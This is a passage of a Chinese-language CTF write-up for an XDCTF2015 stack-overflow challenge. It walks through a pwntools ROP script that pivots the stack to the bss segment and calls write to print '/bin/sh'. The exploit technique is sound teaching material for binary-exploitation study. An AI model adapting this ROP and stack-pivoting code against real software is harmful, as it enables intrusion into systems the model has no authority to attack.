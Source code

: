 以上参考https://bbs.pediy.com/thread-250703.htm

# 2.wiki

## 1.分析

![image.png](https://i.loli.net/2020/11/17/cF9q2ZHPSoLMV4r.png)

![image.png](https://i.loli.net/2020/11/17/yKPQ7cTZXYEwaAi.png)

很简单，就是一个栈溢出，偏移为112（108+4）

## 2.stage1

这里我们的主要目的是控制程序执行 write 函数，使用栈迁移的技巧，将栈迁移到 bss 段来控制 write 函数。即主要分为两步

1. 将栈迁移到 bss 段。
2. 控制 write 函数输出相应字符串。

这里主要使用了 pwntools 中的 ROP 模块。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)    #相当于rop.call('read',[0,base_stage,100])
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())


## write cmd="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"
rop.write(1, base_stage + 80, len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```
